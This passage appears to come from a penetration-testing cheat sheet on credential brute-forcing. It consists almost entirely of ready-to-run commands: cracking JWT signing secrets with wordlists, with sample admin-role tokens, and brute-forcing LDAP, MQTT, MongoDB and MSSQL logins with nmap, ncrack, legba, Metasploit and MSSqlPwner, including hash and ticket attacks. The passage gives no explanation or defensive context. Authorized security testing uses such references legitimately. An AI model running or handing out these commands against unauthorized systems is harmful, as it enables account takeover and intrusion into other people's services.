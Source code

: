```bash
john jwt.txt --wordlist=wordlists.txt --format=HMAC-SHA256

#https://github.com/ticarpi/jwt_tool
python3 jwt_tool.py -d wordlists.txt <JWT token>

#https://github.com/brendan-rius/c-jwt-cracker
./jwtcrack eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc 1234567890 8

#https://github.com/mazen160/jwt-pwn
python3 jwt-cracker.py -jwt eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcImFkbWluXCIsXCJyb2xlXCI6XCJhZG1pblwifSJ9.8R-KVuXe66y_DXVOVgrEqZEoadjBnpZMNbLGhM8YdAc -w wordlist.txt

#https://github.com/lmammino/jwt-cracker
jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
```
### LDAP
```bash
nmap --script ldap-brute -p 389 <IP>
legba ldap --target 127.0.0.1:389 --username admin --password @wordlists/passwords.txt --ldap-domain example.org --single-match
```
### MQTT
```
ncrack mqtt://127.0.0.1 --user test –P /root/Desktop/pass.txt -v
legba mqtt --target 127.0.0.1:1883 --username admin --password wordlists/passwords.txt
```
### Mongo
```bash
nmap -sV --script mongodb-brute -n -p 27017 <IP>
use auxiliary/scanner/mongodb/mongodb_login
legba mongodb --target localhost:27017 --username root --password data/passwords.txt
```
### MSSQL

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Bruteforce using tickets, hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using hashes, and passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt -pl passwords.txt

# Bruteforce using tickets against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -tl tickets.txt -ul users.txt

# Bruteforce using passwords against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -pl passwords.txt

# Bruteforce using hashes against the hosts listed on the hosts.txt
mssqlpwner hosts.txt brute -ul users.txt -hl hashes.txt
```
